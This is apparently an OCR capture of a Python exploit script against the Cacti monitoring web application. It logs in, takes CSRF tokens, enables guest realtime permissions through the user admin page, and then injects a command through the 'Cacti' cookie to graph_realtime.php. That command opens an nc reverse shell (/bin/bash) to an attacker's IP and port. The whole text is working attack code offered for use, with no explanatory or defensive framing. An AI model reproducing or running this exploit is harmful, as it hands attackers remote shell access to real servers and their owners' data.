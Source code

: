     def enable_guest(token):
        request_info = {
        "id": "3",
        "section25": "on",
        "section7": "on",
        "tab": "realms",
        "save_component_realm_perms": 1,
        "action": "save",
        "__csrf_magic": token
        }
        enable_request = request.post(url+"/user_admin.php?header=false", request_info)
        if enable_request:
            return True
        else:
            return False
     
    def send_exploit():
        payload = ";nc${IFS}-e${IFS}/bin/bash${IFS}%s${IFS}%s" % (ip, port)
        cookies = {'Cacti': quote(payload)}
        requests.get(url+"/graph_realtime.php?action=init", cookies=cookies)
     
    request = requests.session()
    print("[+]Retrieving login CSRF token")
    page = request.get(url+"/index.php")
    html_content = page.text
    soup = BeautifulSoup(html_content, "html5lib")
    token = soup.findAll('input')[0].get("value")
    if token:
        print("[+]Token Found : %s" % token)
        print("[+]Sending creds ..")
        login_status = login(token)
        if login_status:
            print("[+]Successfully LoggedIn")
            print("[+]Retrieving CSRF token ..")
            page = request.get(url+"/user_admin.php?action=user_edit&id=3&tab=realms")
            html_content = page.text
            soup = BeautifulSoup(html_content, "html5lib")
            token = soup.findAll('input')[1].get("value")
            if token:
                print("[+]Making some noise ..")
                guest_realtime = enable_guest(token)
                if guest_realtime:
                    print("[+]Sending malicous request, check your nc ;)")
                    send_exploit()
                else:
                    print("[-]Error while activating the malicous account")
     
            else:
                print("[-] Unable to retrieve CSRF token from admin page!")
                exit()
     
        else:
            print("[-]Cannot Login!")
    else:
        print("[-] Unable to retrieve CSRF token!")
        exit()
